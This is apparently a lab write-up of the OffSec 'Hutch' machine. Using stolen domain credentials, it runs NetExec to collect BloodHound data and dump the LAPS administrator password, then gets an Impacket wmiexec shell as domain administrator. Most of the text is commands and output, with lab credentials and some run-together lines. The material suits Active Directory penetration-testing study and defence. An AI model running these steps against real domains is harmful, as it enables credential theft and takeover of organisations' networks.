

Practical NetExec for BloodHound Collectors and LAPS Abuse
LAPS Abuse Overview
If LAPS is used inside the domain, it can be hard to use NetExec tool to execute a command on every computer on the domain.
Therefore, a new core option has been added --laps If you have compromised an account that can read LAPS password, you can use NetExec like this
PS: This method are only works for NetExec in WinRM sessions, as example:
┌──(kali㉿kali)-[~]
└─$ nxc winrm hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 --laps
WINRM 192.168.157.182 5985 HUTCHDC [*] Windows 10 / Server 2019 Build 17763 (name:HUTCHDC) (domain:hutch.offsec)
WINRM 192.168.157.182 5985 HUTCHDC [-] HUTCHDC\administrator:Ut!DW@Y/2idXLet's move back-wards litle bit from Red teaming first instinct when having set credentials of:
fmcsorley:CrabSharkJellyfish192
┌──(kali㉿kali)-[~]
└─$ nxc ldap hutch.offsec -u fmcsorley -p CrabSharkJellyfish192
LDAP 192.168.157.182 389 HUTCHDC [*] Windows 10 / Server 2019 Build 17763 (name:HUTCHDC) (domain:hutch.offsec)
LDAP 192.168.157.182 389 HUTCHDC [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192Lists of idea in mind (more or less):
- Roasting.
- BloodHound collectors.
Long-story short BloodHound are very important so let's use NetExec as collectors.
┌──(kali㉿kali)-[~]
└─$ nxc ldap HUTCHDC.hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 --bloodhound -c All --dns-server 192.168.157.182
LDAP 192.168.157.182 389 HUTCHDC [*] Windows 10 / Server 2019 Build 17763 (name:HUTCHDC) (domain:hutch.offsec)
LDAP 192.168.157.182 389 HUTCHDC [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192
LDAP 192.168.157.182 389 HUTCHDC Resolved collection methods: trusts, dcom, group, objectprops, psremote, localadmin, session, rdp, acl, container
LDAP 192.168.157.182 389 HUTCHDC Done in 00M 04S
LDAP 192.168.157.182 389 HUTCHDC Compressing output into /root/.nxc/logs/HUTCHDC_192.168.157.182_2024-10-18_163030_bloodhound.zip┌──(kali㉿kali)-[~]
└─$ ls
HUTCHDC_192.168.157.182_2024-10-18_163030_bloodhound.zipFrom here the .zip files would be containing .JSON more or less like BloodHound Python, whatever it is as long we can fed it to BloodHound graph.

Here at the BloodHound graph we're able to see that our currect owned User can read Password LAPS from HUTCHDC computer.
From that singular information we can now add commands on NetExec, we can read LAPS password from multiple sectors:
- WinRM via:
--lapscommand - LDAP via laps Module
This is moreover preferences, if WinRM indicate success, it can also indicate what user LAPS password belong to (following the example above).
Let's now try with laps Module on NetExec with -M command.
┌──(kali㉿kali)-[~]
└─$ nxc ldap hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 -M laps
LDAP 192.168.157.182 389 HUTCHDC [*] Windows 10 / Server 2019 Build 17763 (name:HUTCHDC) (domain:hutch.offsec)
LDAP 192.168.157.182 389 HUTCHDC [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192
LAPS 192.168.157.182 389 HUTCHDC [*] Getting LAPS Passwords
LAPS 192.168.157.182 389 HUTCHDC Computer:HUTCHDC$ User: Password:Ut!DW@Y/2idXWhatever protocol it is, we're as Adversary have successfully retrieve the LAPS password and do lateral-movement.
Validating
┌──(kali㉿kali)-[~]
└─$ nxc ldap hutch.offsec -u Administrator -p 'Ut!DW@Y/2idX'
LDAP 192.168.157.182 389 HUTCHDC [*] Windows 10 / Server 2019 Build 17763 (name:HUTCHDC) (domain:hutch.offsec)
LDAP 192.168.157.182 389 HUTCHDC [+] hutch.offsec\Administrator:Ut!DW@Y/2idX (Pwn3d!)We got Pwned!! yo, now supposed we Logon
┌──(kali㉿kali)-[~]
└─$ wmiexec.py Administrator:'Ut!DW@Y/2idX'@hutch.offsec
Impacket v0.14.0.dev0+20251107.4500.2f1d6eb2 - Copyright Fortra, LLC and its affiliated companies
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
hutch\administratorMoreover, Proton me if you have further question and suggestion.
Happy hacking!